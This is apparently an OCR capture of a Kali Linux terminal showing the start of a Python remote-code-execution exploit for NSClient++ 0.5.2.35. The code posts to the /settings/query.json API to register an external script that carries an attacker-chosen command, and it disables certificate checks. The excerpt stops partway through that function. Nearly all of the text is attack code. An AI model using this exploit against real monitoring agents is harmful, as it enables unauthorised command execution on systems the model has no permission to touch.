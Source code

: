 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ba
```
                                                                                                                    
┌──(eMVee@kali)-[~/Documents/Back2Back/nsclient-0.5.2.35-RCE-exploit]
└─$ cat exploit.py 
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup as bs
import urllib3
import json
import sys
import random
import string
import time
import argparse
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def generateName():

  letters = string.ascii_lowercase + string.ascii_uppercase
  return ''.join(random.choice(letters) for i in range(random.randint(8,13)))

def printStatus(message, msg_type):

  C_YELLOW = '\033[1;33m'
  C_RESET = '\033[0m'
  C_GREEN = '\033[1;32m'
  C_RED = '\033[1;31m'

  if msg_type == "good":
    green_plus = C_GREEN + "[+]" + C_RESET 
    string = green_plus + " " + message

  elif msg_type == "info":
    yellow_ex = C_YELLOW + "[!]" + C_RESET
    string = yellow_ex + " " + message
  
  elif msg_type == "bad":
    red_minus = C_RED + "[-]" + C_RESET
    string = red_minus + " " + message

  print(string)

def configurePayload(session, cmd, key):

  printStatus("Configuring Script with Specified Payload . . .", "info")
  endpoint = "/settings/query.json"
  node = { "path" : "/settings/external scripts/scripts",
     "key" : key } 
  value = { "string_data" :  cmd }
  update = { "node" : node , "value" : value }
  payload = [ { "plugin_id" : "1234",
        "update" :  update } ] 
  json_data = { "type" : "SettingsRequestMessage", "payload" : payload }

  out = session.post(url = base_url + endpoint, json=json_data, verify=False)
  if "STATUS_OK" not in str(out.content):
    printStatus("Error configuring payload. Hit error at: "  + endpoint, "bad")
    sys.exit(1)

  printStatus("Added External Script (name: " + key + ")", "good")
  time.sleep(3)
  printStatus("Saving Configuration . . .", "info")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
